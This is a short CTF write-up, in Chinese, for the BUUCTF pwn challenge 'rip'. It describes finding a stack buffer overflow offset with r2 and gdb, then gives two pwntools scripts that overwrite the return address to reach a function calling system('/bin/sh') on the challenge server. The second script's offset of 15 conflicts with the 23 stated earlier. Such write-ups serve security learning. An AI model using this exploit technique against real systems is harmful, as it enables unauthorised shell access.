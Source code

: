 # rip

### Solve

1. 先用r2看一下main裡面有什麼東西，可以看到get這個function接著用於是用BOF去測測看，可以得到offset為23

    <img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/rip/jpg/1.png" width=350>
    
    ※ offset：
    gdb$ pattc 100
    gdb$ crashoff

2. 再用r2的afl看看有哪些function，結果看到可疑的sym.fun，於是點進去看看

    <img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/rip/jpg/2.png" width=350>

3. 可以看到裡面直接call了system("/bin/sh")，正是我們的目標，於是我們用disas fun找到fun function的address

    <img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/rip/jpg/3.png" width=250>

### exp 1

<img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/rip/jpg/4.png" width=400>

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*23
fun = 0x401187 # 0x40118a both correct
payload += p64(fun)
r.sendline(payload)

r.interactive()
```

### exp 2

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*15
fun = 0x401186
payload += p64(fun)
r.sendline(payload)

r.interactive()
```
